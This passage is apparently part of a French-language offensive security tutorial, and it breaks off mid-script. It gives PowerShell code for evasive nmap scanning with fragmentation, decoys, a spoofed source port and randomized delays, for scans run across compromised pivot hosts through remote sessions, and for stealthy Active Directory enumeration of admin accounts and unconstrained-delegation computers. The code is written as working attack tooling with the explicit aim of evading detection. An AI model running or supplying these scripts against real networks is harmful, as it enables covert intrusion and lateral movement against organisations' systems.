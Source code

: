 ```powershell
        $NmapCommand = "nmap -sS -f --mtu $FragmentSize -D $($Decoys -join ','),ME --source-port 53 --data-length $((Get-Random -Minimum 10 -Maximum 50)) -p $($Ports -join ',') $Target --max-rate 10 --scan-delay $((Get-Random -Minimum $MinDelay -Maximum $MaxDelay))s"
        
        Invoke-Expression $NmapCommand
        
        # Délai entre les cibles
        Start-Sleep -Seconds (Get-Random -Minimum 60 -Maximum 180)
    }
}

# Scan distribué via pivots avec coordination
$DistributedScanScript = {
    param($TargetSubnet, $PortList)
    
    # Scan local depuis le pivot
    $LocalResults = @()
    1..254 | ForEach-Object {
        $IP = "$TargetSubnet.$_"
        foreach ($Port in $PortList) {
            if (Test-NetConnection -ComputerName $IP -Port $Port -WarningAction SilentlyContinue) {
                $LocalResults += "$IP`:$Port"
            }
            Start-Sleep -Milliseconds (Get-Random -Minimum 500 -Maximum 2000)
        }
    }
    return $LocalResults
}

# Coordination des scans distribués
$ScanJobs = @()
$Subnets = @("10.0.0", "172.16.0", "192.168.1")
$CriticalPorts = @(22, 80, 443, 445, 3389, 5985, 5986)

for ($i = 0; $i -lt $Subnets.Count; $i++) {
    if ($i -lt $Sessions.Count) {
        $ScanJobs += Invoke-Command -Session $Sessions[$i] -ScriptBlock $DistributedScanScript -ArgumentList $Subnets[$i], $CriticalPorts -AsJob
    }
}
```

#### Étape 4 : Énumération Active Directory avancée avec évasion

Effectuez une énumération AD sophistiquée en évitant les signatures de détection.

```powershell
# Énumération AD avec techniques d'évasion
function Invoke-StealthADEnum {
    # Utilisation de requêtes LDAP directes pour éviter PowerView
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher
    $Searcher.SearchRoot = New-Object System.DirectoryServices.DirectoryEntry
    
    # Énumération des utilisateurs privilégiés avec délais
    $Searcher.Filter = "(&(objectCategory=user)(adminCount=1))"
    $AdminUsers = $Searcher.FindAll()
    Start-Sleep -Seconds (Get-Random -Minimum 10 -Maximum 30)
    
    # Énumération des ordinateurs avec délégation
    $Searcher.Filter = "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))"
    $UnconstrainedDelegation = $Searcher.FindAll()
    Start-Sleep -Seconds (Get-Random -Minimum 10 -Maximum 30)
```